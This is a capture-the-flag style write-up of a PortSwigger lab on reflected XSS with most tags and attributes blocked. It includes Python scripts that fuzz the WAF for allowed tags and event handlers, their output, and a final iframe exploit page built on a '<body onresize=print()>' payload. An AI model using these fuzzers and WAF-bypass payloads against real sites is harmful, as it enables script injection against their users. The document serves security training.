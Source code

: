# Reflected XSS into HTML context with most tags and attributes blocked | Dec 31, 2022

## Introduction

Welcome to my another writeup! In this Portswigger Labs [lab](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-html-context-with-most-tags-and-attributes-blocked), you'll learn: Reflected XSS into HTML context with most tags and attributes blocked! Without further ado, let's dive in.

- Overall difficulty for me (From 1-10 stars): ★★☆☆☆☆☆☆☆☆

## Background

This lab contains a [reflected XSS](https://portswigger.net/web-security/cross-site-scripting/reflected) vulnerability in the search functionality but uses a web application firewall (WAF) to protect against common XSS vectors.

To solve the lab, perform a [cross-site scripting](https://portswigger.net/web-security/cross-site-scripting) attack that bypasses the WAF and calls the `print()` function.

## Exploitation

**Home page:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-17/images/Pasted%20image%2020221231061442.png)

In here, we can see there is a search box.

Let's search something:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-17/images/Pasted%20image%2020221231061551.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-17/images/Pasted%20image%2020221231061605.png)

As you can see, our input is reflected to the web page.

**Let's try to inject some common XSS payloads:**
```html
<script>alert(document.domain)</script>
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-17/images/Pasted%20image%2020221231061656.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-17/images/Pasted%20image%2020221231061714.png)

However, it looks like the WAF (Web Application Firewall) blocked it.

**To bypass WAF, we first need to know which tags are NOT filtered.**

**To do so, I'll write a python script:**
```py
#!/usr/bin/env python3

import requests
from threading import Thread
from time import sleep

def sendRequest(tag):
    payload = f'<{tag}>'
    url = f'https://0a4600b104ae5e98c0356dc100fd00e7.web-security-academy.net/?search={payload}'

    requestResult = requests.get(url + tag)

    if 'Tag is not allowed' not in requestResult.text:
        print(f'[+] Found valid tag: {payload}')

def main():
    # From PortSwigger Cross-site scripting (XSS) cheat sheet:
    # https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
    listTags = ['a', 'a2', 'abbr', 'acronym', 'address', 'animate', 'animatemotion', 'animatetransform', 'applet', 'area', 'article', 'aside', 'audio', 'audio2', 'b', 'bdi', 'bdo', 'big', 'blink', 'blockquote', 'body', 'br', 'button', 'canvas', 'caption', 'center', 'cite', 'code', 'col', 'colgroup', 'command', 'content', 'custom tags', 'data', 'datalist', 'dd', 'del', 'details', 'dfn', 'dialog', 'dir', 'div', 'dl', 'dt', 'element', 'em', 'embed', 'fieldset', 'figcaption', 'figure', 'font', 'footer', 'form', 'frame', 'frameset', 'h1', 'head', 'header', 'hgroup', 'hr', 'html', 'i', 'iframe', 'iframe2', 'image', 'image2', 'image3', 'img', 'img2', 'input', 'input2', 'input3', 'input4', 'ins', 'kbd', 'keygen', 'label', 'legend', 'li', 'link', 'listing', 'main', 'map', 'mark', 'marquee', 'menu', 'menuitem', 'meta', 'meter', 'multicol', 'nav', 'nextid', 'nobr', 'noembed', 'noframes', 'noscript', 'object', 'ol', 'optgroup', 'option', 'output', 'p', 'param', 'picture', 'plaintext', 'pre', 'progress', 'q', 'rb', 'rp', 'rt', 'rtc', 'ruby', 's', 'samp', 'script', 'section', 'select', 'set', 'shadow', 'slot', 'small', 'source', 'spacer', 'span', 'strike', 'strong', 'style', 'sub', 'summary', 'sup', 'svg', 'table', 'tbody', 'td', 'template', 'textarea', 'tfoot', 'th', 'thead', 'time', 'title', 'tr', 'track', 'tt', 'u', 'ul', 'var', 'video', 'video2', 'wbr', 'xmp']

    for tag in listTags:
        thread = Thread(target=sendRequest, args=(tag,))
        thread.start()
        sleep(0.05)

if __name__ == '__main__':
    main()
```

```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/Cross-Site-Scripting]
└─# python3 tag_fuzzing.py
[+] Found valid tag: <body>
[+] Found valid tag: <custom tags>
```

Looks like we can use the `<body>` tag!

**Then, we can go to PortSwigger's [Cross-site scripting (XSS) cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet) to choose an XSS payload:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-17/images/Pasted%20image%2020221231064909.png)

```html
<body onload=alert(1)>
```

**Looks good. Let's try it:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-17/images/Pasted%20image%2020221231064929.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-17/images/Pasted%20image%2020221231064936.png)

`Attribute is not allowed`...

**Again, we can fuzz which attributes are allowed:**
```py
#!/usr/bin/env python3

import requests
from threading import Thread
from time import sleep

def sendRequest(attribute):
    payload = f'<body {attribute}=alert(document.domain)>'
    url = f'https://0a4600b104ae5e98c0356dc100fd00e7.web-security-academy.net/?search={payload}'

    requestResult = requests.get(url + attribute)

    if 'Attribute is not allowed' not in requestResult.text:
        print(f'[+] Found valid attribute: {payload}')

def main():
    # From PortSwigger Cross-site scripting (XSS) cheat sheet:
    # https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
    listAttributes = ['onafterprint', 'onafterscriptexecute', 'onanimationcancel', 'onanimationend', 'onanimationiteration', 'onanimationstart', 'onbeforecopy', 'onbeforecut', 'onbeforeinput', 'onbeforeprint', 'onbeforescriptexecute', 'onbeforeunload', 'onblur', 'onclick', 'oncontextmenu', 'oncopy', 'oncut', 'ondblclick', 'ondrag', 'ondragend', 'ondragenter', 'ondragleave', 'ondragover', 'ondragstart', 'ondrop', 'onerror', 'onfocus', 'onfocusin', 'onfocusout', 'onhashchange', 'onkeydown', 'onkeypress', 'onkeyup', 'onload', 'onmessage', 'onmousedown', 'onmouseenter', 'onmouseleave', 'onmousemove', 'onmouseout', 'onmouseover', 'onmouseup', 'onmousewheel', 'onpagehide', 'onpageshow', 'onpaste', 'onpointerdown', 'onpointerenter', 'onpointerleave', 'onpointermove', 'onpointerout', 'onpointerover', 'onpointerrawupdate', 'onpointerup', 'onpopstate', 'onresize', 'onscroll', 'onselectionchange', 'onselectstart', 'ontouchend', 'ontouchmove', 'ontouchstart', 'ontransitioncancel', 'ontransitionend', 'ontransitionrun', 'ontransitionstart', 'onunhandledrejection', 'onunload', 'onwebkitanimationend', 'onwebkitanimationiteration', 'onwebkitanimationstart', 'onwebkittransitionend', 'onwheel']

    for attribute in listAttributes:
        thread = Thread(target=sendRequest, args=(attribute,))
        thread.start()
        sleep(0.05)

if __name__ == '__main__':
    main()
```

```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/Cross-Site-Scripting]
└─# python3 attribute_fuzzing.py 
[+] Found valid attribute: <body onbeforeinput=alert(document.domain)>
[+] Found valid attribute: <body onresize=alert(document.domain)>
```

Again, go to PortSwigger's [Cross-site scripting (XSS) cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet) to choose an XSS payload:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-17/images/Pasted%20image%2020221231065455.png)

Hmm... `onbeforeinput` has no payload.

**How about `onresize`?**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-17/images/Pasted%20image%2020221231065538.png)

**It has!**
```html
<body onresize="print()">
```

**Let's test it:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-17/images/Pasted%20image%2020221231065604.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-17/images/Pasted%20image%2020221231065617.png)

It worked!

**Now, let's go to the exploit server and deliver the payload to victim:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-17/images/Pasted%20image%2020221231065700.png)

**Final payload:**
```html
<html>
    <head>
        <title>XSS-17</title>
    </head>
    <body>
        <iframe id="xssiframe" src="https://0a4600b104ae5e98c0356dc100fd00e7.web-security-academy.net/?search=%3Cbody+onresize%3D%22print%28%29%22%3E" scrolling="auto" frameborder="0"></iframe>
    </body>

    <script>
        var xssiframeObject = document.getElementById("xssiframe");

        // When the Iframe is loaded, change it's height and width to the viewer's screen width and height
        xssiframeObject.onload = function(){
            xssiframeObject.style.height = screen.height + 'px';
            xssiframeObject.style.width = screen.width + 'px';
        };
    </script>
</html>
```

This HTML code will create an Iframe, and the source is pointing to our XSS payload. When the Iframe is fully loaded, change it's height and width to the viewer's screen width and height.

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-17/images/Pasted%20image%2020221231071618.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/Cross-Site-Scripting/XSS-17/images/Pasted%20image%2020221231071628.png)

We did it!

# What we've learned:

1. Reflected XSS into HTML context with most tags and attributes blocked